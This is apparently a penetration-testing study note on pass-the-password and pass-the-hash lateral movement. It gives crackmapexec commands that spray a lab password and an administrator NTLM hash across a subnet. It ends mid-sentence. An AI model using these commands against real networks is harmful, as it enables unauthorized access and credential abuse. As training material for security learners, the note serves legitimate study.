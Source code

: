 # **Pass the Password / Pass the Hash**

## **What are this?**

If we crack a password and/or can dump the SAM hashes with **secretsdump.py** or **ntlmrelayx.py**, we can leverage both for lateral movement in networks



## **Attack 1  : Crackmapexec**

```powershell
# show help message
$ crackmapexec --help

# Pass the password attack
$ sudo crackmapexec smb 192.168.0.0/24 -u fcastle -d MARVEL.local -p Password1

# Pass the hash attack
$ sudo crackmapexec smb 192.168.0.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth
```

### **Example**

![](https://i.imgur.com/BEJeQ9g.jpg)


**Note :** We cannot use NTLMv2 hashes for the pass the hash attack [refer to LLMNR poisoning for this type of hashes] , 